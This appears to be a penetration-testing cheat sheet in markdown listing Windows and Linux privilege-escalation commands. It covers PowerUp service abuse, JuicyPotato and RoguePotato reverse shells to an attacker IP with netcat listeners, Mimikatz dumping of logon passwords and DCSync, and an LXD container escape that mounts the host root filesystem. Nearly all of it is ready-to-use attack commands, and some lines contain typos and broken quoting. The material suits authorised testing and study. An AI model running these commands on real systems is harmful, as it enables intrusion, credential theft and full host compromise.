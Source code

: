 ## Powerup
```
. .\powerup.ps1
Invoke-AllChecks
Invoke-ServiceAbuse -Name {vulnerable service} -UserName "{name}"
```

### Unquoted PE
```
. .\powerup.ps1
Get-ServiceUnquoted -Verbose
```
> - Create a reverse shell and replace the name of the unoquoted service name

## Potato
### Juicy
> - Requires
```
JuicyPotato.exe -l 1338 -p {reverse shell} -t *  

whoami /priv
whoami /all
```
- nc -lvnp 1338
- use msfvenom to create a reverse shell file
- Conditions: Account must have SeImperrsonate or SeAssignPrimra
### Rouge Potato
```
# on attacker
nc -lvnp 4444

# on victim
.\RoguePotato.exe -r {attacker IP} -e "cmd.exe /c powershell -enc -l 4444

# CLSID
.\RoguePotato.exe -r {attacker IP} -e "cmd.exe /c powershell -enc -l 4444 -c "{CLSID}"
```

## Mimikatz
```
# Running mimikatz once 
.\mimikatz.exe "{command}" exit

# Powershell
. .\invoke-mimikatz
invoke-mimikatz -Command '"{commands}"'


# Commands
# Get login passwords
lsadump::lsa /patch
sekurlsa::logonpasswords
Invoke-Mimikatz -DumpCreds
Invoke-Mimikatz -DumpCreds -ComputerName @("sys1","sys2")

# Get passwords from task scheduler
''"token::elevate” “vault::cred /patch”’

# DC sync
'"lsadump::dcsync /user:{DOMAIN}\{USERNAME}"'
```
## Alpine PE
> - Docker = VMware
> - Copies the root file systems into the docker
> - The user who has access to the docker has "root" privileges on the docker hence are able to "acces" all the files
> - user needs to be in the group:
	-	lxc
	-	lxd
### Creating container
```
# installing the requirements
apt install -y golang-go debootstrap rsync gpg squashfs-tools

# installing source code of the distrobuilder
git clone https://github.com/lxc/distrobuilder

# generating the bin file in $HOME/go/bin/distrobuilder
cd ./distrobuilder
make

# create the alpine directory
mkdir -p $HOME/ContainerImages/alpine/
cd $HOME/ContainerImages/alpine/

# download the configuration files to the alpine directory
wget https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml

# creating the container
sudo $HOME/go/bin/distrobuilder build-lxd alpine.yaml -o image.release=3.8

# 2 files:
lxd.tar.xz
rootfs.squashfs
```
### Add root path
create the container in the vulnerable server and add teh root path
```
# import the container
lxc image import lxd.tar.xz rootfs.squashfs --alias alpine

# see the container
lxc image list

# enable root privileges on the host system (docker)
lxc init alpine privesc -c security.privileged=true

# check if privesc is there
lxc list

# copy the root files to the docker 
# source = / 
# dst = /mnt/root
lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
```

### Privilege Escalate
```
# start and execute the docker
lxc start privesc
lxc exec privesc /bin/sh
```
